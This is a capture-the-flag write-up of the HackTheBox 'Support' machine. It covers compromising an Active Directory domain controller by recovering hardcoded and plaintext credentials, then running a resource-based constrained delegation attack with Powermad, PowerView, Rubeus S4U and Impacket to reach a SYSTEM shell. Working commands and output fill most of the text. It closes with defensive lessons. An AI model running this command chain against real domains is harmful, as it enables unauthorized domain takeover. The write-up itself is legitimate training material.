







# Machine Information

* **Machine Name:** Support
* **Platform:** HackTheBox
* **Operating System:** Windows Server 2022 Build 20348
* **Target IP:** 10.129.230.181 (Later reset to 10.129.50.119)
* **Domain:** `support.htb`
* **Domain Controller:** `dc.support.htb` (`DC$`)
* **Difficulty:** Medium

---

# Enumeration

## Nmap

During initial reconnaissance against the domain controller, standard port scans revealed standard Active Directory services running, including Kerberos (88), LDAP (389/636), SMB (445), and WinRM (5985).

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-09-23 14:50:51Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49683/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Web Enumeration

No direct HTTP web services were prominently exposed for web exploitation on port 80. The entire attack surface revolved around network services and Active Directory domain components.

## Service Enumeration

In my (easy) earlier pass on the machine, enumerating anonymous/guest SMB shares led to the discovery of a zipped utility named `UserInfo.exe.zip`. Let's skip the basic file transfer steps and jump straight into reverse engineering the extracted binary: `UserInfo.exe`.

### Reverse Engineering `UserInfo.exe`

I created a dedicated directory to decompile the executable:

```bash
mkdir -p ./userinfo_sc
TERM=vt100 ilspycmd -o ./userinfo_sc -p UserInfo.exe
```

#### Why did I prefix the command with `TERM=vt100`?
Here is an interesting hurdle that tripped me up initially. When you run .NET core tools like `ilspycmd` or Mono on a modern Kali Linux installation, it might immediately crash with an error complaining that `File must be smaller than 4K` or `terminfo database is invalid`. 

Think of Kali Linux and the .NET runtime as two people talking. To make terminal output look pretty, Kali sends a terminal decoration rulebook (the `terminfo` database). On modern Kali, that rulebook is bloated (> 4 KB) to support millions of colors and advanced features. However, older .NET runtimes have a strict limitation: they refuse to parse terminfo files larger than 4 Kilobytes! When forced to read Kali's bloated terminfo file, .NET throws an exception and halts.

By prepending `TERM=vt100`, we tell Kali to announce itself as a vintage, barebones VT100 terminal. Its terminfo definition is tiny (< 4 KB), allowing `ilspycmd` to decompile smoothly without crashing.

Inspecting the decompiled source tree:

```bash
tree
```

```text
.
├── app.config
├── Properties
│   └── AssemblyInfo.cs
├── UserInfo
│   ├── FindUserOptions.cs
│   ├── GetUserOptions.cs
│   ├── GlobalOptions.cs
│   └── Program.cs
├── UserInfo.Commands
│   ├── FindUser.cs
│   └── GetUser.cs
├── UserInfo.csproj
└── UserInfo.Services
    ├── LdapQuery.cs
    └── Protected.cs
```

Two files immediately grabbed my attention under `UserInfo.Services`:
1. `Protected.cs`
2. `LdapQuery.cs`

Let's inspect `Protected.cs`:

```bash
cat UserInfo.Services/Protected.cs
```

```csharp
using System;
using System.Text;

namespace UserInfo.Services;

internal class Protected
{
        private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";

        private static byte[] key = Encoding.ASCII.GetBytes("armando");

        public static string getPassword()
        {
                byte[] array = Convert.FromBase64String(enc_password);
                byte[] array2 = array;
                for (int i = 0; i < array.Length; i++)
                {
                        array2[i] = (byte)((uint)(array[i] ^ key[i % key.Length]) ^ 0xDFu);
                }
                return Encoding.Default.GetString(array2);
        }
}
```



### Deobfuscating the Password

The code reveals a custom obfuscation routine:
* A Base64-encoded ciphertext: `0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E`
* A key string: `"armando"`
* A byte-level XOR modifier: `^ 0xDFu`

Because XOR is symmetric, reversing the routine is straightforward:
1. Decode the string from Base64.
2. XOR each byte against the key `"armando"` (in UTF-8 / ASCII mode).
3. XOR the result against the Hex value `0xDF`.

Throwing this into CyberChef:
* **Recipe:**
  1. `From Base64`
  2. `XOR` (Key: `armando`, Scheme: Standard, Key format: UTF8)
  3. `XOR` (Key: `0xDFu` / Hex `DF`, Scheme: Standard)



**Output:**
```text
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

Now let's check `LdapQuery.cs` to see what username this password belongs to:

```bash
cat UserInfo.Services/LdapQuery.cs
```

```csharp
...
        public LdapQuery()
        {
                string password = Protected.getPassword();
                entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
                entry.set_AuthenticationType((AuthenticationTypes)1);
                ds = new DirectorySearcher(entry);
        }
...
```

The username is hardcoded as `support\ldap`.

### Validating Credentials via NetExec

Let's test these credentials against LDAP on the Domain Controller:

```bash
nxc ldap support.htb -u ldap -p "$pass"
```

```text
LDAP        10.129.230.181  389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb) (signing:None) (channel binding:No TLS cert) 
LDAP        10.129.230.181  389    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```

The green `[+]` confirms that we have valid domain credentials for user `ldap`.

---

# Initial Foothold

With valid LDAP credentials, we can query Active Directory directly to discover domain users and hunt for interesting attributes.

I executed `ldapsearch` querying specifically for the `support` user object:

```bash
ldapsearch -x -H ldap://10.129.230.181 -D "ldap@support.htb" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" "(samAccountName=support)" > ldap2.txt
```

Inspecting the output:

```text
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=support,DC=htb
dSCorePropagationData: 20220528111201.0Z
dSCorePropagationData: 16010101000000.0Z
```

Notice two critical pieces of information:
1. `info: Ironside47pleasure40Watchful` — An administrator left a plaintext password in the user's `info` attribute!
2. `memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb` — The user is explicitly allowed to connect remotely via WinRM.

Let's verify these credentials using NetExec:

```bash
nxc ldap support.htb -u support -p "$pass1"
```

```text
LDAP        10.129.230.181  389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb) (signing:None) (channel binding:No TLS cert) 
LDAP        10.129.230.181  389    DC               [+] support.htb\support:Ironside47pleasure40Watchful
```

The credentials work! Because `support` belongs to `Remote Management Users`, we can log in directly using `evil-winrm`:

```bash
evil-winrm -i 10.129.230.181 -u support -p 'Ironside47pleasure40Watchful'
```

We now have an interactive PowerShell shell on the target system as `support.htb\support`.

---

# Privilege Escalation

Our current user is an unprivileged support account. Our goal is to gain full Domain Administrator privileges on the Domain Controller (`DC$`).

To do this, we'll leverage **Resource-Based Constrained Delegation (RBCD)**.

### What is RBCD and Why Does it Apply Here?

In Active Directory, Resource-Based Constrained Delegation (RBCD) allows a target resource (like the Domain Controller) to specify which accounts are trusted to delegate authentication to it via the `msds-allowedtoactonbehalfofotheridentity` attribute.

If we can:
1. Create or control a computer account in the domain (by default, standard users can create up to 10 computer accounts via `MachineAccountQuota`).
2. Write to the `msds-allowedtoactonbehalfofotheridentity` attribute on the target machine object (`DC$`).
3. Configure that attribute so the target trusts our newly created computer account.

Then, our computer account can use Kerberos Service-for-User (S4U) extensions (`S4U2self` and `S4U2proxy`) to request a service ticket impersonating ANY domain user (including `Administrator`) to access services (such as CIFS) on the target.

### Preparing the Arsenal

Before jumping into the attack, I prepared several Red Teaming PowerShell modules on Kali:

```bash
cp /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/powerview.ps1 .
cp /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/powermad.ps1 .
```

Inside the Evil-WinRM session, I uploaded them to `C:\Users\support\Documents`:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> upload powerview.ps1
*Evil-WinRM* PS C:\Users\support\Documents> upload powermad.ps1
*Evil-WinRM* PS C:\Users\support\Documents> ls

    Directory: C:\Users\support\Documents

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/23/2026  11:18 PM         134957 powermad.ps1
-a----         9/23/2026  11:18 PM         918086 powerview.ps1
```

Next, I loaded both scripts into memory using **Dot-Sourcing**:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> . .\powermad.ps1
*Evil-WinRM* PS C:\Users\support\Documents> . .\powerview.ps1
```

> **Why Dot-Sourcing (`. .\`)?**  
> If you simply execute a PowerShell script by calling `.\script.ps1`, PowerShell spawns a temporary child scope. Once the script finishes, all declared functions, cmdlets, and variables vanish. By adding a dot and a space before the path (`. .\script.ps1`), we tell PowerShell to execute the script in the **current** scope, keeping all PowerView and PowerMad cmdlets accessible directly in our active Evil-WinRM terminal session.

We can inspect the Domain Controller's object using PowerView:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer

pwdlastset                    : 12/31/1600 4:00:00 PM
logoncount                    : 60
samaccountname                : DC$
dnshostname                   : dc.support.htb
useraccountcontrol            : SERVER_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION
distinguishedname             : CN=DC,OU=Domain Controllers,DC=support,DC=htb
objectsid                     : S-1-5-21-1677581083-3380853377-188903654-1000
...
```

---

## Attempt 1: The Trial, Errors, and Troubleshooting

Let's walk through my initial attempt with the machine account `teddy`, because it illustrates real-world troubleshooting when cmdlets fail.

### Step 1: Adding a Machine Account & SecureString Error

I initially ran:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount teddy -Password 'longlivetheking123@'
```

PowerShell threw a parameter binding exception:
```text
Cannot process argument transformation on parameter 'Password'. Cannot convert the "longlivetheking123@" value of type "System.String" to type "System.Security.SecureString".
```

PowerMad expects a `SecureString` object rather than a raw plaintext string. I converted the password and created the account:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> $SecurePassword = ConvertTo-SecureString 'longlivetheking123@' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount teddy -Password $SecurePassword
[+] Machine account teddy added
```

Retrieving its SID:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> $Sid = (Get-DomainComputer teddy).objectsid
*Evil-WinRM* PS C:\Users\support\Documents> $Sid
S-1-5-21-1677581083-3380853377-188903654-6102
```



### Step 2: Failed Cmdlets & Manual SDDL Crafting

Normally, people use helper cmdlets like `New-DomainObjectAcl` or ActiveDirectory module cmdlets to grant delegation. Watch what happened when I tried:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> $SD = New-DomainObjectAcl -PrincipalIdentity teddy$ -Rights "GenericAll" -TargetIdentity DC$ -OutSecurityDescriptor
The term 'New-DomainObjectAcl' is not recognized as the name of a cmdlet...

*Evil-WinRM* PS C:\Users\support\Documents> $ACE = New-ADObjectAccessControlEntry -PrincipalIdentity teddy$ -Right GenericAll -AccessControlType Allow
Unable to resolve principal: teddy$
```

The cmdlets were unavailable or failed to resolve the principal. Rather than getting stuck, I pivoted to **manually crafting the Security Descriptor Definition Language (SDDL)** string!

The SDDL syntax for an Access Control Entry (ACE) granting full access to our computer account's SID (`S-1-5-21-1677581083-3380853377-188903654-6102`) is:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> $SDDL = "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-6102)"
```

Breaking down this SDDL string:
* `O:BAD:` — Sets the Owner and Group as Built-in Administrators.
* `(A;;...;;;<SID>)` — An **Allow** (`A`) ACE granting full directory rights (`CCDCLCSWRPWPDTLOCRSDRCWDWO`) specifically to our SID `S-1-5-21-1677581083-3380853377-188903654-6102`.

We then initialize a raw security descriptor object and convert it to a binary byte array:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> $SD = New-Object System.Security.AccessControl.RawSecurityDescriptor -ArgumentList $SDDL
*Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
```

Finally, we inject this raw byte array into `DC$`'s delegation attribute:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> Set-DomainObject -Identity DC$ -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```



i thought it was succesfull in the background but, no??

### Step 3: Hit a Roadblock with `getST.py`

Back on Kali, I attempted to request a Service Ticket using Impacket's `getST.py`:

```bash
impacket-getST -dc-ip 10.129.230.181 -spn cifs/DC.support.htb -impersonate Administrator 'support.htb/teddy$:longlivetheking123@'
```

Output:
```text
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

The KDC responded with `KDC_ERR_C_PRINCIPAL_UNKNOWN`. I checked LDAP for `teddy$` and noticed synchronization/replication issues with the domain controller or an expired lab instance. HTB machines can become unstable after extended sessions.

---

## Attempt 2: Lab Reset, Clean Execution, and Rubeus S4U

I reset the machine to get a pristine state. After reconnecting to the fresh instance via Evil-WinRM, I uploaded all tools, including `SharpHound.ps1` and `Rubeus.exe`:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> upload powerview.ps1
*Evil-WinRM* PS C:\Users\support\Documents> upload powermad.ps1
*Evil-WinRM* PS C:\Users\support\Documents> upload SharpHound.ps1
*Evil-WinRM* PS C:\Users\support\Documents> upload Rubeus.exe

*Evil-WinRM* PS C:\Users\support\Documents> . .\powerview.ps1
*Evil-WinRM* PS C:\Users\support\Documents> . .\powermad.ps1
*Evil-WinRM* PS C:\Users\support\Documents> . .\SharpHound.ps1
```

### 1. Creating the New Machine Account `wakamiya$`

This time, I added the machine account `wakamiya` with password `wakamiya123@!`:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount wakamiya -Password $(ConvertTo-SecureString 'wakamiya123@!' -AsPlainText -Force)
[+] Machine account wakamiya added
```

Retrieving its newly assigned SID:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainObject -Identity wakamiya$ | fl objectsid

objectsid : S-1-5-21-1677581083-3380853377-188903654-6101
```

### 2. Crafting and Injecting SDDL for `wakamiya$`

With the SID `S-1-5-21-1677581083-3380853377-188903654-6101` in hand, I created the binary SDDL and injected it into `DC$`:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> $SDDL = "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1677581083-3380853377-188903654-6101)"
*Evil-WinRM* PS C:\Users\support\Documents> $SD = New-Object System.Security.AccessControl.RawSecurityDescriptor -ArgumentList $SDDL
*Evil-WinRM* PS C:\Users\support\Documents> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\Documents> $SD.GetBinaryForm($SDBytes, 0)
*Evil-WinRM* PS C:\Users\support\Documents> Set-DomainObject -Identity DC$ -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

```text
Verbose: [Get-DomainObject] Get-DomainObject filter string: (|(|(samAccountName=DC$)(name=DC$)(displayname=DC$)))
Verbose: [Get-DomainSearcher] search base: LDAP://DC=support,DC=htb
Verbose: [Invoke-LDAPQuery] filter string: (&(|(|(samAccountName=DC$)(name=DC$)(displayname=DC$))))
Verbose: [Set-DomainObject] Setting 'msds-allowedtoactonbehalfofotheridentity' to '1 0 4 128 20 0 0 0 0 0 0 0 0 0 0 0 36 0 0 0 1 2 0 0 0 0 0 5 32 0 0 0 32 2 0 0 2 0 44 0 1 0 0 0 0 0 36 0 255 1 15 0 1 5 0 0 0 0 0 5 21 0 0 0 27 219 253 99 129 186 131 201 230 112 66 11 213 23 0 0' for object 'DC$'
```



The attribute was successfully written!

### 3. Calculating Password Hashes with Rubeus

Instead of relying solely on Impacket over the network, I executed `Rubeus.exe` locally to compute Kerberos hashes:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> .\Rubeus.exe hash /user:wakamiya$ /password:'wakamiya123@!' /domain:support.htb
```

```text
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4

[*] Action: Calculate Password Hash(es)

[*] Input password             : wakamiya123@!
[*] Input username             : wakamiya$
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTBhostwakamiya.support.htb
[*]       rc4_hmac             : 45A12C3CC100ACBD81ABB898721893E7
[*]       aes128_cts_hmac_sha1 : 94AF00988C2B1D6D29A55C1EFE0F8A8F
[*]       aes256_cts_hmac_sha1 : E166C4D8F47101C940C4A2AEE0236F56B3760FE105504E85B7C6376CD121783B
[*]       des_cbc_md5          : 0754767CBFCD6DFD
```

### 4. Executing S4U to Impersonate Administrator

Now comes the core of the attack: using Rubeus to request a service ticket for `cifs/dc.support.htb` impersonating `Administrator`:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> .\Rubeus.exe s4u /user:wakamiya$ /password:'wakamiya123@!' /domain:support.htb /dc:dc.support.htb /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /ptt /aes256:E166C4D8F47101C940C4A2AEE0236F56B3760FE105504E85B7C6376CD121783B
```

```text
[*] Impersonating user 'Administrator' to target SPN 'cifs/dc.support.htb'
[*] Using domain controller: dc.support.htb (::1)
[*] Building S4U2proxy request for service: 'cifs/dc.support.htb'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':

      doIGaDCCBmSgAwIBBaEDAgEWooIFejCCBXZhggVyMIIFbqADAgEFoQ0bC1NVUFBPUlQuSFRCoiEwH6AD
      AgECoRgwFhsEY2lmcxsOZGMuc3VwcG9ydC5odGKjggUzMIIFL6ADAgESoQMCAQaiggUhBIIFHViP3ZVl
      L3r0GVCmMfsSwRbv3Q7wcur+uPuXMpEO7GPS5O1vdZO3m98h1xifUsxeRC9eA+SNRmqtk6Ca7WSOsw6R
      ...[TRUNCATED]...
      MBYbBGNpZnMbDmRjLnN1cHBvcnQuaHRi
[+] Ticket successfully imported!
```



`S4U2proxy success!` We received a valid service ticket granting us access to the DC's CIFS share as `Administrator`.

---

# Root

Now i have a Base64-encoded Kerberos ticket (`.kirbi`), but i want to use it from my Kali attack box with Impacket tools. 

### Converting `.kirbi` to Linux `.ccache`

1. Paste the Base64 string into `ticket.txt`:
   ```bash
   nano ticket.txt
   ```
2. Decode the Base64 string into raw binary `.kirbi` format:
   ```bash
   base64 -d ticket.txt > ticket_raw.kirbi
   ```
3. Convert the Windows `.kirbi` file to Linux `.ccache` format using Impacket's `ticketConverter`:
   ```bash
   impacket-ticketConverter ticket_raw.kirbi admin.ccache
   ```
   ```text
   [*] converting kirbi to ccache...
   [+] done
   ```
4. Point the Kerberos credentials environment variable to our `.ccache` file:
   ```bash
   export KRB5CCNAME=/home/wakamiya/VirtualLab/HTB/support/ticket/admin.ccache
   ```

> **A Quick Word on Kerberos Gotchas:**  
> When working with Kerberos caches on Linux:
> * Ensure your system clock is synchronized with the target domain controller (e.g., `sudo ntpdate -u <DC_IP>`). Kerberos strictly rejects tickets if the clock skew exceeds 5 minutes.

### Executing `smbexec` for SYSTEM Access

Now that our ticket is loaded in `KRB5CCNAME`, we can pass the ticket (`-k -no-pass`) directly into `impacket-smbexec`:

```bash
impacket-smbexec -dc-ip 10.129.50.119 -k -no-pass support.htb/Administrator@dc.support.htb
```

```text
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
```

We have a command shell directly as `NT AUTHORITY\SYSTEM`!

### Grabbing the Root Flag

Remember that under `smbexec`, you cannot change directories (`cd`) because each command executes in an independent service invocation. Always pass the full absolute path:

```cmd
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
da22bcb8385b80bREDACTED51d750f
```



---

# Lessons Learned

1. **Never Hardcode Secrets in Compiled Binaries:**  
   Compiled executables (.NET, Java, Go) can be trivially decompiled back to readable source code using tools like `ilspycmd` or dnSpy. Basic XOR or symmetric encryption routines provide zero security when the encryption key and modifier are stored in the same binary.

2. **Scrub Active Directory Attributes:**  
   The password for `support` was left in the user object's `info` attribute in LDAP. Directory attributes should never be used to store plaintext credentials. Audit attributes across domain objects regularly.

3. **Tighten Active Directory Delegation & Machine Account Quotas:**  
